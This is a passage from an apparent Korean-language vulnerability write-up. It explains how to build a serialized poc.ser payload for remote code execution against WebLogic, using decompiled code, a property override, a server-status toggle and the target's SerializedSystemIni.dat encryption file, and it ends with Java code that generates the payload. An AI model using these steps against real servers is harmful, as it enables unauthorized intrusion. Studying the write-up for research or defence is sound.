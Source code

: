 ```java
public static final SubjectManager getSubjectManager() {
    Object var0 = ceSubjectManagerLock; var0 (slot_0): Object@661
    synchronized(ceSubjectManagerLock) {
        while(ceSubjectManager == null) {
            if (ceClient) {
                ceSubjectManager = SubjectManagerFactory.getInstance().getSubjectManager();
                return ceSubjectManager;
             }
             
             try {
                 ceSubjectManagerLock.wait();
             } catch (InterruptedException var3) {
                 throw new AssertionError(var3);
             }
        }
        
        return ceSubjectManager;
    }
}
```
`AuthenticatedSubject`를 초기화 할 때는 위 코드가 실행되는데 `ceClient`의 값이 `True`가 아니라면 무한 루프에 빠지는 것을 볼 수 있습니다. `ceSubjectManagerLock.wait` 메서드에서는 직렬화가 실행되지 않습니다. 그리고 `ceClient`는 시스템 속성이기 때문에 `com.bea.core.internal.client`을 이용해서 `True`를 설정할 수 있습니다.<br>

```
private static final bollean ceClient = "true".equalsIgnoreCase(System.getProperty( key:"com.bea.core.internal.client", def:"false"));
```
그래서 위와 같이 `ceClient` 변수를 설정해주면 무한루프에 빠지지 않아 두 번째 문제도 해결할 수 있습니다.<br>

3. 세 번째 문제는 직렬화 데이터가 암호화되지 않는다는 것 입니다.<br>

```java
public static byte[] encrypt(byte[] var0) {
    return Kernel.isServer() ? getEncryptionService().encryptBytes(var0) : var0;
}
```
`EncryptionUtilencrypt`를 확인해보면 `isServer` 메서드 값이 참이면 암호화한 값을 넣어주고, 참이 아니면 암호화하지 않고 원본을 반환하는 것을 볼 수 있습니다.<br>

```
KernelStatus.setIsServer(true)
```
그래서 직렬화 데이터를 암호화하기 전에 위 구문을 정의해줌으로서 `isServer` 값이 참이 되게 만들면 직렬화 데이터가 잘 암호회되어 세 번째 문제도 해결할 수 있습니다.<br>

4. 네 번째 문제는 암호화에 사용되는 `SerializedSystemIni.dat` 파일이 없다는 겁니다. 해당 문제를 해결하기 위해서는 현재 웹 로직에서 사용되고 있는 `SerializedSystemIni.dat` 파일을 poc 디렉터리에 넣어주면 됩니다.

```java
        public static void main(String[] args) throws IOException{
            System.setProperty("com.bea.core.internal.client","true");
            //KernelStatus.setIsServer(true);
            PersistentContext pc = new PersistentContext(null,null,null,null,null);
            FileOutputStream fos = new FileOutputStream("poc.ser");
            ObjectOutputStream objectOutputStream = new ObjectOutputStream(fos);
            objectOutputStream.writeObject(pc);
            objectOutputStream.close();
        }
```
4가지의 문제를 모두 해결하였으면 `poc.ser` 파일을 생성하고, 해당 파일로 익스를 진행하면 RCE를 트리거 할 수 있습니다.

---